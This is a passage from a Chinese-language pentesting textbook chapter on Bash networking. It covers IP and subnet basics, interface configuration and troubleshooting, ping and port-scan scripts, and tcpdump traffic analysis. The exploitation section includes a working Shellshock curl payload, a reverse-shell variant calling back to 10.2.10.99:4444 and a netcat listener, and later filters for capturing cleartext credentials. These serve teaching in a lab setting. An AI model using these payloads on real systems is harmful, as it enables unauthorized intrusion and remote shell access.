

# 第六章：Bash 网络

在*第五章*中，您学会了如何使用函数使代码更加健壮。本章将在前几章的基础上，通过将所学应用到与网络和网络利用相关的实际渗透测试任务中来进行扩展。

本章深入探讨**Bash 网络**。我们将对一些命令和脚本进行巡览，这些命令和脚本能够让你在 Unix/Linux 环境中配置、排查故障并利用网络。你将不仅学习如何访问网络配置细节和与网络组件互动，还将学习如何使用 Bash 脚本利用脆弱的网络服务。我们将从基础开始，然后逐步深入更高级的概念，直到网络流量分析。

本章结束时，您将能够识别网络配置细节，理解 Bash 中的网络诊断，枚举 Bash 中的网络服务，自动化网络扫描工具和链式攻击序列，并探索 Bash 脚本中的利用和后期利用命令。

在本章中，我们将覆盖以下主要主题：

+   Bash 中的网络基础

+   使用 Bash 脚本进行网络枚举

+   网络利用的 Bash 技巧

+   Bash 脚本用于网络流量分析

# 技术要求

本章的代码可以在[`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter06`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter06)找到。

跟随其中一个利用练习，您需要下载并运行已配置`Shellshock`漏洞的`vulhub`（[`github.com/vulhub/vulhub`](https://github.com/vulhub/vulhub)）。

在 Kali 中安装所需工具，方法是在终端运行以下命令：

```
 $ sudo apt install -y net-tools tshark ipcalc sipcalc
```

在配置好系统并跟随操作之后，我们将在下一节深入探索 Bash 中的网络内容。

# Bash 中的网络基础

好的，让我们深入了解**互联网协议**（**IP**）地址和**子网**。IP 地址有两种类型：**IP 版本 4**（**IPv4**）和`IPv6`。您通常会使用 IPv4 地址，但了解两者的基础知识也是有帮助的。

IP 地址就像街道地址。它们帮助设备通过网络相互通信。每个设备在连接到网络时都会被分配一个唯一的 IP 地址。

## 理解 IP 地址和子网（IPv4）

IPv4 是 IP 的第四个版本。它是当前世界上最广泛使用的 IP 版本。IPv4 地址是 32 位数字值，以四个**八位字节**（octets）表示，每个八位字节之间用句号隔开。每个八位字节的范围是`0`到`255`，总共可以组成超过四十亿个唯一地址。

一个 IPv4 地址由四个由句号隔开的部分组成。以下是一个 IPv4 地址的示例：`192.168.1.1`。让我们为您逐步解析：

+   该文档分为四个部分，每个部分由一个句号隔开。

+   每个部分称为一个八位字节。

+   `192` 代表第一个八位字节。

+   `168` 代表第二个八位字节。

+   `1` 代表第三个八位字节。

+   `1` 代表第四个八位字节。

IPv4 地址中的每个八位字节的值可以在`0`和`255`之间，形成一个 32 位的地址空间。

在 Bash 中查看 IP 地址的命令是`ip address`，可以缩写为`ip a`。在较老的 Linux 系统中，你可能会遇到已经弃用的`ifconfig`命令，它执行相同的功能。让我们看一个示例：


图 6.1 – 获取 IP 地址信息的示例命令

上述命令输出显示了两个网络接口，`lo`和`eth0`。你可能会在你的系统上看到不同的接口名称，并且可能有不止两个接口。

`lo`接口，也称为**回环适配器**，是一个允许计算机将数据包发送并接收给自己的网络组件，用来模拟真实的网络连接。它被分配了 IP 地址`127.0.0.1`，通常称为`localhost`，使得软件应用可以在没有外部网络干预的情况下测试内部网络通信，这对于调试和开发至关重要。此外，它通过允许服务绑定到此地址，从而只能本地访问，增强了安全性，防止外部威胁和未经授权的访问。

`eth0`接口被分配了`192.168.61.128`的 IPv4 地址。它是我的系统用来在网络上进行通信的网络接口。

在 IP 地址后面，你可以看到一个斜杠（**/**）和一个数字。这就是**子网掩码**，有时也称为`netmask`。子网掩码标识网络地址。为了更好地理解这一点，我们使用一种称为按位**与**的过程。我们将 IP 地址和子网掩码转换成二进制，然后进行按位**与**操作。按位**与**操作仅在两个二进制位都为`1`时结果为`1`，否则结果为`0`（零）。

让我们使用`ipcalc`程序来可视化这些信息。你可以通过运行`sudo apt install -y ipcalc`命令来安装它。让我们看一个示例：


图 6.2 – ipcalc 命令的示例

在前面的图中，我们将 IP 地址和子网掩码作为参数传递给`ipcalc`程序。首先，查看这些地址的二进制结构。如果每个部分是八位二进制位，并且有四个部分，那么 IPv4 地址总共有 32 位。

`/24`子网掩码意味着网络地址是 24 位。查看前面图中以`Netmask`开头的那一行。它显示网络地址是 24 位，剩下 8 位用于该网络上的主机地址。

表示网络地址和广播地址的 IP 地址不能分配给主机。这意味着在一个 `/24` 或 `255.255.255.0` 子网掩码的网络中，网络地址是 `192.168.61.0`，第一个可用的主机地址是 `HostMin` 值，最后一个可用的主机地址是 `HostMax` 值。

通常，一个名为 **路由器** 的网络设备会占用网络上第一个可用的 IP 地址。在本例中，这个地址是 `192.168.61.1`。最后一个地址，`192.168.61.255`，是 **广播地址**。广播地址是在主机需要发送数据给网络上的所有 IP 地址时使用的地址。`NetMin` 和 `NetMax` 值位于网络地址和广播地址之间。

网络和网络地址的内容要复杂得多，许多大部头的书籍已经专门讨论了这个主题。为了简化起见，我们将重点与本书的主题相关，并保持简洁。

## 理解 IP 地址和子网（IPv6）

IPv6，作为 IP 的最新版本，旨在解决 IPv4 地址耗尽的问题，通过使用 128 位地址空间，相比于 IPv4 的 32 位地址空间。这种地址空间的指数级增长使得 IP 地址几乎是无限的，可以满足越来越多的连接互联网的设备需求。每个 IPv6 地址由八组四个十六进制数字组成，组与组之间用冒号分隔，这可以表示极为广泛的 IP 地址范围，非常适合现代网络的庞大需求。

在下图中，IPv6 地址已被高亮显示。


图 6.3 – IPv6 的 ip 命令

`ipcalc` 程序也可以处理 IPv6 地址；然而，`Sipcalc` 提供了更多功能，并且默认情况下显示更多关于 IPv6 的信息。可以通过输入 `sudo apt install -y sipcalc` 命令安装 Sipcalc。以下图示展示了如何使用 `sipcalc`：


图 6.4 – 使用 sipcalc 工具

为了保持话题的聚焦，我们只深入探讨到这里，关于 IPv6 地址的内容到此为止。然而，我们将在稍后的 *第十章* 中回顾常见的 IPv6 攻击。

我们的网络接口可以从 **动态主机配置协议**(**DHCP**) 服务器获取地址，或者可以设置静态地址。要确定我们的网络接口是如何配置的，请输入以下命令：

```
 $ nmcli device show eth0
```

下面是解释：

+   `nmcli` ：控制 NetworkManager 的命令行工具

+   `device` ：`nmcli` 的一个子命令，允许你显示和管理网络接口

+   `show` ：显示设备的详细信息

+   `eth0` ：没有参数时，所有设备都会被检查；若要获取特定设备的信息，必须提供接口名称

以下示例展示了我在 Kali 系统上的输出：


图 6.5 – 示例 nmcli 命令输出

在学习了如何列举网络设置之后，让我们继续前进，探索如何在 Bash 中配置网络接口。

## 使用 Bash 命令配置网络接口

好的，让我们深入了解如何使用 Bash 命令配置网络接口。

要使用 Bash 命令配置网络接口，你可以使用 `ip` 命令。以下是如何在接口上设置静态 IP 地址的示例：

```
 $ sudo ip addr add 192.168.1.10/24 dev eth0
$ sudo ip link set eth0 up
```

`ip addr` 命令将 `192.168.1.10` 的 IP 地址和子网掩码 `255.255.255.0`（在 CIDR 表示法中为 **/24**）添加到 `eth0` 接口。`ip link` 命令将 `eth0` 接口启用。

你还可以使用 `route` 命令添加默认网关。以下是一个示例：

```
 $ sudo ip route add default via 192.168.1.1 dev eth0
```

该命令用于操作 IP 路由表。这将添加默认路由并将其明确关联到 `eth0` 接口。

你可以通过单独输入 `route` 命令来查看路由表。

请记住，这些命令可能需要 root 权限才能成功执行。更改网络配置时请始终保持谨慎。

## 使用 Bash 工具排除网络连接问题

当你在 Linux 系统上遇到网络连接问题时，试图找出问题所在可能会让人沮丧。幸运的是，有许多强大的命令行工具可以帮助你快速诊断和解决网络问题。在本节中，我们将介绍一些最有用的网络故障排除命令，并展示如何有效使用它们。

排查网络问题的第一步是确保你的网络接口已启动并正确配置。`ip` 命令是较旧的 `ifconfig` 命令的现代替代品，提供关于网络接口和设置的详细信息。

要列出网络接口的详细信息，请使用 `ip link` 命令，如下图所示：


图 6.6 – 使用 ip link 显示网络接口配置

这将显示每个接口的名称、状态（`UP** / `DOWN**）和 MAC 地址。如果某个接口应该是启用状态但却处于关闭状态，你可以启用它：

```
 $ sudo ip link set eth0 up
```

要查看接口的 IP 地址配置，你可以这样做：

```
 $ ip address show eth0
```

这将显示接口的 IP 地址、子网掩码、广播地址等信息。如果接口应该有 IP 地址但没有，那么可能是 DHCP 或 `/etc/network/interfaces` 文件中的静态 IP 配置有问题。

一旦你确认接口已启动并具有 IP 地址，下一步是使用 `ping` 测试与其他主机的基本连通性。Ping 使用 `Internet Control Message Protocol`（**ICMP**）回显请求来测试远程主机是否可达。

要通过 IP 地址或主机名 ping 一个主机，请参见以下示例：

```
 $ ping 8.8.8.8
ping google.com
```

如果主机可达，您将看到类似以下的回复：

```
 64 bytes from 8.8.8.8: icmp_seq=1 ttl=128 time=12.8 ms
```

如果主机无法访问，您最终会看到类似下面的超时消息：

```
 From 192.168.1.10 icmp_seq=2 Destination Host Unreachable
```

这可能表示远程主机存在问题，或网络路径上存在连接问题。

若要获取有关连接在哪一段路径上断开更多信息，请使用`traceroute`命令。`traceroute`会显示从主机到目标之间的每一个网络*跳数*，并显示每个跳数的延迟，如下图所示：


图 6.7 – traceroute 程序执行示例

输出显示了源和目标之间每个路由器的 IP 地址、延迟和反向 DNS 名称（如果可用）。这有助于识别问题，如高延迟链路或未响应的路由器。

如果跟踪在到达目标之前突然停止，通常说明在该跳数处存在连接问题。问题可能由下行链路故障、配置错误的路由器或防火墙阻塞流量引起。如果看到星号，通常意味着设备未响应或 ICMP 包被阻塞。

许多连接问题是由 DNS 名称解析问题引起的。如果主机名无法正确解析为 IP 地址，您将无法连接到它们。`nslookup` 和 `dig` 工具可以帮助您测试 DNS 查找并查看结果。

若要使用 nslookup 查找主机名的 IP 地址，请输入 `nslookup` 命令后跟主机名，如下所示：



图 6.8 – nslookup 命令示例

这将查询您配置的 DNS 服务器，并显示名称解析到的 IP 地址。`-query` 选项（或其简写 **-q**）允许您指定要查找的 DNS 记录类型。以下是一些示例。

这查找与 `example.com` 关联的 IPv4 地址：

```
 $ nslookup -query=A example.com
```

这将检索 `example.com` 的 IPv6 地址：

```
 $ nslookup -query=AAAA example.com
```

这将查找处理 `example.com` 邮件的邮件服务器：

```
 $ nslookup -query=MX example.com
```

这列出了 `example.com` 域的权威名称服务器：

```
 $ nslookup -query=NS example.com
```

要获取更详细的信息，请使用 `dig`，如这里所示：


图 6.9 – 使用 dig 命令的演示

`dig` 输出原始 DNS 响应，包括查询、答案以及各种 DNS 标志和选项。这对于诊断低级别 DNS 问题非常有用。

如果查找失败或返回错误的结果，可能是 `/etc/resolv.conf` 中的 DNS 服务器配置存在问题，或者 DNS 服务器本身出现故障。

最后，在排查网络问题时，别忘了检查相关日志以寻找线索。在 Kali 和 Debian 系统中，系统日志存储在 `/var/log` 目录下。

与网络问题相关的关键日志文件包括以下内容：

+   `/var/log/syslog` : 一般系统消息

+   `/var/log/kern.log` : 内核消息，包括网络驱动问题

+   `/var/log/daemon.log` : 来自后台服务的消息

+   `/var/log/apache2/error.log` : Web 服务器错误

+   `/var/log/mysql/error.log` : 数据库错误

使用 `tail` 、`less` 或 `grep` 等工具查看日志并搜索相关信息。我们来看几个使用案例。

例如，下面是如何查看 `syslog` 中最后 100 行日志：

```
 $ tail -n 100 /var/log/syslog
```

下面是如何在 `kern.log` 中搜索 `eth0` 的相关内容：

```
 $ grep eth0 /var/log/kern.log
```

如果你收到错误消息说这些日志文件不存在，系统可能正在使用 `journald`。要按逆序（最新的在前）查看 `journald` 日志并仅显示错误，可以使用以下命令：

```
 $ journalctl -r -p err
```

错误消息或日志中的警告通常能指引你解决问题的方向。

通过利用这些 Linux 命令行工具，你可以系统地测试和诊断 Debian 系统上的网络问题。首先使用 `ip` 检查接口状态，然后使用 ping 和 traceroute 进行连接性测试。使用 `nslookup` 和 `dig` 验证 DNS 解析。最后，不要忽视查看日志以查找相关的消息。

虽然掌握这些工具需要一些实践，但学会它们对于任何渗透测试者来说都是一项无价的技能。它们将帮助你迅速找出复杂网络问题的根源。

在彻底讲解了网络接口枚举、配置和故障排除后，接下来我们将探讨如何在网络枚举中使用 Bash 脚本进行自动化。

# 网络枚举脚本编写

作为渗透测试者，最基本的任务之一是发现网络上哪些主机是活动的并且可达的。这些信息对于绘制网络拓扑图、识别潜在的测试目标以及确保网络可见性至关重要。虽然有很多工具可以用于网络发现，但有时最简单且最有效的方法是编写你自己的 Bash 脚本。在本节中，我们将探讨如何利用 Bash 脚本发现网络中的活动主机。

主要目标是确定给定网络上的哪些 IP 地址响应网络请求，表明主机在该地址上是活动且可达的。网络发现的最常见方法是使用 ICMP 回显请求，也叫做 *ping*。当你 ping 一个 IP 地址时，你的机器会向该地址发送一个 ICMP 回显请求包。如果该地址上的主机是活动的，它将回应一个 ICMP 回显响应包。通过系统地 ping 一系列 IP 地址，你可以绘制出网络上哪些主机是响应的。

另一种方法是扫描每个 IP 地址的开放端口。如果某个主机有响应 `TCP SYN` 扫描或完全的 TCP 连接扫描的开放端口，即使它不响应 ping，也可以强烈表示该主机是活跃的（有些主机会被配置为不响应 ICMP）。常见的端口包括 `TCP 80 (HTTP)`，`443 (HTTPS)`，`22 (SSH)` 等，具体端口取决于你期望在网络中找到的服务。

你可能会想，既然已有很多像 Nmap 这样的工具可以用于网络发现，为什么还要写 Bash 脚本呢？虽然这些工具无疑非常强大，并且有其适用的场景，但创建自己的 Bash 脚本也有一些优点：

+   **简洁性** ：Bash 脚本可以非常简单和简洁。你可以用几行 Bash 编写一个基础的网络发现脚本。

+   **便携性** ：Bash 几乎可以在每个 Linux/Unix 系统上使用。你的 Bash 脚本可以在任何安装有 Bash 的机器上运行，无需额外安装其他工具。最终，你可能会遇到这样的场景：你已经入侵了一个系统，需要从该系统转向另一个网络，但无法在主机上安装任何东西。

+   **学习** ：编写你自己的网络发现脚本是学习 Bash 脚本编写的好方法，同时也能更好地理解网络枚举的底层过程。

所以，让我们看看如何利用 Bash 来发现活跃的主机。

这是一个简单的 Bash 单行命令，用来 ping 一个 IP 地址范围，并打印出响应的地址：

```
 $ for ip in 10.0.1.{1..254}; do ping -c 1 $ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" & done
```

让我们分解一下这个：

+   `for ip in 10.0.1.{1..254}; do` ：这会启动一个 `for` 循环，遍历 `10.0.1.1` 到 `10.0.1.254` 的 IP 地址。`{1..254}` 是 Bash 的花括号扩展，一种生成序列的便捷方式。

+   `ping -c 1 $ip` ：这会对当前循环中的 IP 地址进行 ping 操作。`-c 1` 选项表示只发送一个 ping 数据包。

+   `grep "64 bytes"` ：这会过滤 ping 输出，只保留包含 `"64 bytes"` 的行，表示成功的 ping 响应。

+   `cut -d " " -f 4` ：这会截取过滤后的 ping 输出中的第四个字段，即响应的 IP 地址。

+   `tr -d ":"` ：这会去掉 IP 地址末尾的冒号。

+   `& done` ：在最后加上 `&` 字符，可以将每个 ping 进程放到后台运行，允许循环在不等待每个 ping 完成的情况下继续执行。`done` 关键字用于结束 `for` 循环。

运行这个单行命令将快速 ping 完 `10.0.1.0/24` 网络中的所有 254 个地址，并打印出响应的地址，从而获得活跃主机的列表。你可以通过修改 `10.0.1` 部分来轻松更改网络。

Ping 是一个不错的起点，但如前所述，某些主机会阻止 ping，并且防火墙通常会限制 ping ICMP 数据包。一个更彻底的方法是扫描每个 IP 的一些常见端口，查看是否有响应。以下是一个 Bash 脚本，它会先对每个 IP 地址进行 ping，然后快速扫描一些常见端口进行 TCP 连接：

```
 #!/usr/bin/env bash
network="10.0.1"
ports=(22 80 443 445 3389)
for host in {1..254}; do
  ip="$network.$host"
  ping -c 1 $ip >/dev/null 2>&1
  if [ $? -eq 0 ]; then
    echo "$ip is up"
  fi
  for port in "${ports[@]}"; do
    timeout 1 bash -c "echo >/dev/tcp/$ip/$port" >/dev/null 2>&1
    if [ $? -eq 0 ]; then
      echo "port $port is open on $ip"
    fi
  done
done
```

这个脚本执行以下操作：

1.  它定义了要扫描的网络（**10.0.1**）和要检查的端口（`22`、`80`、`443`、`445` 和 **3389**）。

1.  它开始在`{** **1..254}` 网络中的所有主机地址上循环。

1.  它 ping 测试每个主机。如果 ping 测试成功（退出状态 **0**），则打印主机已启动。

1.  对于每个主机，接着它会循环检查定义的端口。

1.  对于每个端口，它使用 Bash `/dev/tcp` 功能尝试建立 TCP 连接。`timeout 1` 命令在一秒后中止连接尝试，以避免在无响应的端口上挂起。

1.  如果 TCP 连接成功，它会打印端口在主机上是开放的。

这个脚本通过检查 ping 响应性和开放端口，提供了网络上活动主机的更全面视图。你可以轻松定制`ports`数组，以包含任何你想要检查的端口。

Bash 脚本提供了一种简单而强大的方法，用于发现网络上的活动主机。只需几行 Bash 代码，你就可以 ping 测试 IP 地址范围、扫描开放端口，并快速绘制活动主机的地图。这些基本技术可以通过多种方式扩展和定制，以满足你的特定需求。

当然，对于更高级的网络发现和漏洞扫描，你可能更倾向于使用专门的工具，如 Nmap。然而，对于快速检查和简单的自动化，Bash 脚本是你网络测试工具包中的一个宝贵工具。而且，编写自己的发现脚本是提高 Bash 技能、加深对网络枚举过程理解的好方法。

所以下次你需要发现网络上的一些主机时，可以考虑使用文本编辑器编写一个 Bash 脚本。你可能会惊讶于自己能够完成的工作量。

学习了 Bash 中的网络枚举后，在下一部分中，我们将进入网络利用的部分。

# 网络利用

在本节中，我们将深入探讨如何利用 Web 应用中的命令注入漏洞，这些应用在将数据传递给操作系统命令之前未能过滤用户输入。

## 网络服务利用

2014 年 9 月，Unix Bash shell 中发现了一个严重漏洞。该漏洞被分配为 `CVE-2014-6271` 标识符，并被昵称为 *Shellshock*，由于其严重性和广泛影响，震动了信息安全社区。让我们深入探讨这个漏洞的技术细节，并了解它如何被利用。

Shellshock 漏洞源于 Bash 处理环境变量的方式存在缺陷。具体来说，它允许攻击者通过以特制方式操控环境变量来执行任意命令。

在 Bash 中，环境变量可以按照以下格式定义：

```
 VAR=value
```

然而，Bash 还支持一个名为**函数导出**的功能，允许定义 shell 函数并将其导出为环境变量。漏洞的产生是因为 Bash 未能正确解析和清理这些函数定义。

这是一个易受攻击的函数定义示例：

```
 ENV=() { ignored; }; echo "Malicious code"
```

在此案例中，`ENV`变量被定义为一个执行`echo "Malicious code"`命令的函数。`ignored`部分用于绕过 Bash 可能尝试执行的任何前置代码。

当包含此类精心构造的函数定义的环境变量传递给 Bash 脚本或调用 Bash 的程序时，函数定义中的恶意代码会被执行。这使得攻击者能够注入并执行任意命令到目标系统。

现在，让我们分析这个有效载荷：

```
 $ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.2.10.1:8080/victim.cgi
```

这个有效载荷利用 Shellshock 漏洞，在目标系统上执行`/usr/bin/id`命令并获取结果。

这是命令输出：


图 6.10 – Shellshock 漏洞利用的输出

这是有效载荷的解析：

+   `curl` : 这是一个用于发起 HTTP 请求的命令行工具。

+   `-A "() { ignored; };** : **-A`选项设置 HTTP 请求的用户代理字符串。在这种情况下，它被设置为一个精心构造的函数定义，利用 Shellshock 漏洞。

+   `echo Content-Type: text/plain ; echo ; echo ;` : 这些`echo`命令用于构建有效的 HTTP 响应头和正文。它们确保响应被视为纯文本，并包含必要的换行符。

+   `/usr/bin/id` : 这是将在目标系统上执行的实际命令。在此情况下，它是`id`命令，用于检索当前用户的信息。

+   `http://10.2.10.1:8080/victim.cgi` : 这是目标系统上易受攻击的**公共网关接口**（**CGI**）脚本的 URL。

当此有效载荷被发送到易受攻击的 CGI 脚本时，用户代理字符串中的精心构造的函数定义会作为环境变量传递给脚本。Bash，通常用于执行 CGI 脚本，解析环境变量并执行注入的命令（**/usr/bin/id**）。然后，命令的输出将包含在 HTTP 响应中，允许攻击者获取结果。

在我们之前用来利用 Shellshock 的`curl`命令中，让我们将命令替换为一个可以使易受攻击系统连接到我们 IP 地址的反向 Shell 命令。

这是我们更新后的利用代码：

```
 $ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -l > /dev/tcp/10.2.10.99/4444 0<&1 2>&1" http://10.2.10.1:8080/victim.cgi
```

这个 Bash 命令打开一个反向 Shell 连接：

+   `/bin/bash -l` : 这会启动一个新的 Bash Shell 会话，作为登录 Shell。

+   `> /dev/tcp/10.2.10.99/4444` : 这将 Shell 的标准输出（**STDOUT**）重定向到一个与`10.2.10.99` IP 地址和端口`4444`的 TCP 连接。一旦你知道 Linux 中所有内容都是文件或在文件系统中出现时，这个部分就能更容易理解了。

+   `0<&1`：将标准输入（**STDIN**）重定向到`STDOUT`，使从远程主机发送的命令能够被 Shell 执行。

+   `2>&1`：将标准错误（**STDERR**）与`STDOUT`合并，因此所有的 Shell 输出和错误信息都会发送到远程主机。

在执行漏洞利用之前，我们必须准备好通过以下命令捕获反向 Shell 连接：

```
 $ nc -nlvp 4444
```

这是解释：

+   `nc`：这是`Netcat`命令

+   下面是`-** **nlvp 4444`参数的分解

    +   `n`：仅使用数字 IP 地址，无 DNS

    +   `l`：监听入站连接

    +   `v`：详细

    +   `p 4444`：监听器的本地端口号

提示

Netcat 几乎可以创建你所需的任何类型的连接，既可以作为客户端，也可以作为服务器。它通常用于端口扫描、文件传输、端口监听，甚至作为渗透测试中的后门。

在一个终端中，我执行 Netcat 命令。然后，在第二个终端窗口中，我执行漏洞利用。在执行 Netcat 命令的终端中，我们看到从`10.2.10.1`建立了连接。最后，我输入`id`命令来查看拥有此 shell 的用户（**www-data**）。

你可以通过下载并运行配置为执行`bash/CVE-2014-6271`的`vulhub` ([`github.com/vulhub/vulhub`](https://github.com/vulhub/vulhub))进行实验。

提示

在进行渗透测试时，我总是留意那些可能将用户提供的输入传递给操作系统命令的 Web 应用功能。这些功能通常出现在诊断测试中，例如 Web 设备的诊断页面上可能会有 ping 或 traceroute 命令。我还会注意任何看起来可能执行操作系统命令的参数。

在 2016 年，我在西部数据 MyCloud **网络附加存储**（**NAS**）设备的 Web 界面中发现了两个严重的漏洞 ([`web.archive.org/web/20170119123248/https://stevencampbell.info/2016/12/command-injection-in-western-digital-mycloud-nas/`](https://web.archive.org/web/20170119123248/https://stevencampbell.info/2016/12/command-injection-in-western-digital-mycloud-nas/))。引起我注意的细节是看到 HTTP 请求数据中有一个名为`cmd`的参数。进一步探索后，我发现 cookie 头中的`username`参数和请求体中的`cmd arg`参数在将数据传递给 Bash shell 中的命令时，没有正确过滤用户输入。利用这些漏洞，我能够在没有身份验证的情况下以*root*用户身份执行命令。

在 2023 年一次客户的渗透测试中，我发现了一个 Web 应用程序中的命令注入漏洞，攻击者可以将用户输入传递给 ping 命令。在通过默认凭证进入 Web 应用的管理界面后，我迅速找到了诊断页面。该应用程序过滤掉了大部分用于 Shell 命令注入的字符，但忽略了 Shell 扩展字符。最终，我发现可以在不提供任何身份验证凭证的情况下，向漏洞端点发送请求。虽然应用程序的响应会将你重定向回登录页面，但响应中仍包含了 Bash 命令的输出。这样就导致了以 root 用户身份的未经身份验证的命令注入漏洞。

在这一节中，我仅为你提供了 Bash 中网络利用的一些初步内容。后面的章节将探索更多的利用技巧，并深入讨论 Bash 中的后期利用命令。接下来，我们将重点介绍如何使用 Bash 进行网络流量分析。

# 网络流量分析

在这一节中，我们将探讨如何使用 Bash shell 中的命令来捕获和分析网络流量。

在我开始渗透测试之前，我从事过各种 IT 工作。曾经，我获得了**思科认证网络工程师**（**CCNA**）证书。我所学到的网络和数据包捕获知识对我的渗透测试职业生涯非常有价值。

在你的渗透测试生涯中，可能会遇到一些系统，这些系统已经被别人反复扫描和测试过。到某个时候，你可能会觉得自己不够好，开始质疑自己的能力，或者觉得系统没有漏洞。当这种情况发生时，你就需要更深入地挖掘并跳出思维框架，找出别人忽视的漏洞。更深入地理解网络知识，往往是发现这些漏洞的关键。

## 捕获并分析网络流量

在我进行内部网络渗透测试的初期步骤中，我首先会使用`tcpdump`命令进行数据包捕获。`tcpdump`是一个用于类 Unix 操作系统的命令行数据包分析工具，它允许用户实时捕获并显示网络数据包的内容。

我使用的命令是：

```
 $ sudo tcpdump -i eth0 -w packetcapture.pcap
```

让这个程序运行五分钟，然后按下*Ctrl* + *C*键组合来停止抓取。

解释如下：

+   `sudo`：接下来的命令需要 root 权限。`sudo`命令会提升当前用户的权限。

+   `tcpdump`：`tcpdump`会打印出网络接口上数据包内容的描述。

+   `-i eth0`：这是`tcpdump`命令的参数，用来指定网络接口。

+   `-w packetcapture.pcap`：这是`tcpdump`命令的参数，用来将数据写入文件。

接下来，我使用各种`tcpdump`命令在捕获中搜索有趣的数据。其中一条命令用于检测默认的**热备份路由协议**（**HSRP**）密码为*cisco*。这个`tcpdump`过滤器在数据包捕获文件中检查 HSRP 中的默认密码（**cisco**）。HSRP 允许将多个物理路由器配置为具有共享 IP 地址的单个逻辑单元。HSRP 攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致**中间人攻击**（**MITM**）。如果发现系统正在使用默认密码（**cisco**），这可能导致某人成为路由器并捕获包含敏感数据的流量。

你可以通过从书的 GitHub 存储库下载`HSRP_election.cap`文件来跟着这个练习。

以下命令演示了如何使用`tcpdump`命令解析数据包捕获文件，以发现正在使用的 Cisco HSRP 默认密码：

```
 $ tcpdump -XX -r packetcapture.pcap udp port 1985 or udp port 2029 | grep -B4 cisco
```

这是输出：


图 6.11 - 使用 tcpdump 命令显示 HSRP 凭据的输出

在这个例子中，我们不需要在`tcpdump`命令前加上`sudo`，因为我们是从一个捕获文件中读取的。

这是解释的其余部分：

+   `-XX`：这是一个打印每个数据包数据的命令，包括其链路级标头，以十六进制和 ASCII 码显示。

+   `-r packetcapture.pcap`：这是一个从数据包捕获文件中读取的命令。

+   **udp 端口 1985 或 udp 端口 2029**：这是一个筛选器，只显示包含源或目的端口的记录。

+   `| grep -B4 cisco`：我们将`tcpdump`命令的输出导入到`grep`中，搜索单词*cisco*。`-B4`选项打印匹配行及其前四行。如果你想打印匹配后的行，请使用`-An`，其中`n`是行数。

重要提示

除非你就在运行命令的系统的键盘旁边，否则永远不要尝试对 HSRP 或其他网络路由协议进行中间人攻击。如果攻击失败，你可能会失去对攻击系统的访问权限，无法停止攻击。由此造成的网络中断会让人们非常不开心！通常最好只报告这个漏洞并继续前进，因为利用它会在犯错时造成中断。

其他常被黑客攻击的常见网络协议是`Link Local Multicast Name Resolution`（**LLMNR**）和`NetBIOS Name Service`（**NBT-NS**）。你可能认为当你在 Web 浏览器、命令行或资源管理器中输入域名如`google.com`时，DNS 服务器会将名称解析为 IP 地址。然而，Microsoft Windows 操作系统会使用 LLMNR 和 NBT-NS 来尝试在本地网络上定位主机名，如果 DNS 解析失败。由于这些是广播协议并发送给所有主机，它们可能被毒化并潜在被利用。这种情况在企业网络中经常发生，因为软件安装或配置残留在系统上，一旦软件连接的主机被废弃，就会留下这些残留物。就在最近，我在渗透测试中捕获了明文 SQL 服务器凭据，因为一个主机一直在尝试连接一个不再存在且无法通过 DNS 解析的服务器。

我用来检测 LLMNR 和 NBT-NS 的`tcpdump`命令如下：

```
 $ tcpdump -r packetcapture.pcap udp port 137 or udp port 5355
```

这会重放`packetcapture.pcap`文件，过滤任何发送到或从 UDP 端口`137`和`5355`的流量。如果这个过滤器检测到任何内容，你可能能够捕获密码哈希或中继连接。这些协议在内部网络渗透测试中很容易被黑客攻击。我们稍后会在*第十章*中深入讨论这个练习。

以下示例捕获了通过明文 HTTP 发送的凭据。在可能的情况下，你应该始终在你的渗透测试报告中提供概念证明漏洞利用。例如，当你报告发现明文服务如 HTTP 或 FTP 时，提供一个截图展示如何捕获凭据，向系统所有者说明使用明文服务的危害。

在你的终端中，运行以下命令来过滤明文 HTTP 通信：

```
 $ sudo tcpdump -I eth0 -XX 'tcp port 80' | grep -i -B5 pass
```

以下图显示了渗透测试人员在命令输出中捕获明文凭据的情况：


图 6.12 - 捕获 HTTP 通信中的明文凭据

我经常使用的另一个数据包捕获工具是 Tshark。Tshark 是一个功能强大的命令行网络协议分析器，它与流行的 Wireshark **图形用户界面**（**GUI**）网络协议分析器捆绑在一起。虽然 Wireshark 提供了一个用户友好的界面来捕获和分析网络流量，但 Tshark 允许你从命令行执行类似的任务。Tshark 允许你使用比 Tcpdump 提供的更复杂的捕获过滤器。

如果你的系统上还没有安装 Tshark，你可以通过安装 Wireshark 来获取它。如果你想在无头系统上使用 Tshark，你可以使用以下命令在 Kali 上安装它而不安装 Wireshark GUI：

```
 $ sudo apt install -y tshark
```

